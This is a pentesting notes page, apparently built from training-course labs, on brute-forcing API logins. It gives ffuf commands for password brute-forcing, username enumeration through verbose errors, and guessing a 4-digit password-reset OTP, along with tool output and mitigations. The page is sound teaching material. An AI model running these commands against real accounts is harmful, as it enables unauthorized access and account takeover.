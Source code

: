 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# BFAs

{% hint style="info" %}
A Brute Force Attack (BFA) involves systematically trying all possible combinations of credentials (e.g., passwords) or encryption keys until the correct one is found.
{% endhint %}

{% hint style="danger" %}
This can lead to unauthorized access to accounts or systems if strong security measures are not in place, as attackers can eventually guess or discover the correct credential.
{% endhint %}

{% hint style="success" %}
Implement account lockout mechanisms after a number of failed attempts, use multi-factor authentication (MFA), enforce strong password policies, and apply rate limiting or CAPTCHA to prevent rapid, repeated login attempts.
{% endhint %}

## Passwords

> _The below example is based on TCM's_ [_Practical API Hacking_](https://academy.tcm-sec.com/p/hacking-apis) _course._

We might be able to enumerate valid usernames via verbose error messages (Figure 1).

<figure><img src="../../../../.gitbook/assets/bfa_1.png" alt=""><figcaption><p>Figure 1: Enumerating a valid username based on verbose error messages.</p></figcaption></figure>

When a valid username is obtained, we can try brute-forcing its password using Burp's Intruder (Figure 2) or CLI tools, such as [`ffuf`](broken-reference).

<figure><img src="../../../../.gitbook/assets/bfa_2.png" alt=""><figcaption><p>Figure 2: Brute-forcing <code>admin</code>'s password with Intruder.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Brute-forcing admin's password with ffuf
$ ffuf -u http://localhost:9000/v1/verify.php -w /usr/share/wordlists/rockyou:PASS -X POST -H 'Content-Type: application/json' -d '{"email":"admin","password":"PASS"}' -c -fc 401
```
{% endcode %}

Based on the above verbose error message (`Invalid password`) we can try to enumerate more valid users (Figure 3), and if other users are found, we can repeat the above process to enumerate their passwords (Figure 4).

<figure><img src="../../../../.gitbook/assets/bfa_3.png" alt=""><figcaption><p>Figure 3: Fuzzing for other valid users based on the verbose error message.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Fuzzing for other valid users based on the verbose error message.
$ ffuf -u http://localhost:9000/v1/verify.php -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt:USER -X POST -H 'Content-Type: application/json' -d '{
"email":"USER","password":"admin"}' -c -mr "Invalid password!"

________________________________________________
jeremy                  [Status: 401, Size: 31, Words: 2, Lines: 1, Duration: 0ms]
admin                   [Status: 401, Size: 31, Words: 2, Lines: 1, Duration: 265ms]
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/bfa_4.png" alt=""><figcaption><p>Figure 4: Fuzzing <code>jeremy</code>'s password with Intruder.</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Brute-forcing jeremy's password with ffuf
$ ffuf -u http://localhost:9000/v1/verify.php -w /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-100000.txt:PASS -X POST -H 'Content-Type: application/json' -d '{"email":"jeremy","password":"PASS"}' -c -mc 200
```
{% endcode %}

## OTPs

> _The below example is based on HTB's_ [_API Attacks_](https://academy.hackthebox.com/course/preview/api-attacks) _module._

If the password policy is robust enough, we can check if the password reset functionality is vulnerable to BFAs due to weak One Time Passcodes (OTPs) (Figure 5).

<figure><img src="../../../../.gitbook/assets/api_bfa_token_1.png" alt=""><figcaption><p>Figure 5: Getting the required information for brute-forcing the OTP</p></figcaption></figure>

{% code overflow="wrap" %}
```bash
# Brute-forcing the OTP
$ ffuf -u http://94.237.59.199:45348/api/v1/authentication/customers/passwords/resets -X POST -H 'Content-Type: application/json' -w /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt:FUZZ -d '{"Email": "MasonJenkins@ymail.com","OTP": "FUZZ","NewPassword": "123456"}' -ac -c -fr ":false" -t 100

0426                    [Status: 200, Size: 22, Words: 1, Lines: 1, Duration: 40ms]
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/api_bfa_token_2.png" alt=""><figcaption><p>Figure 6: Successfully logging in.</p></figcaption></figure>
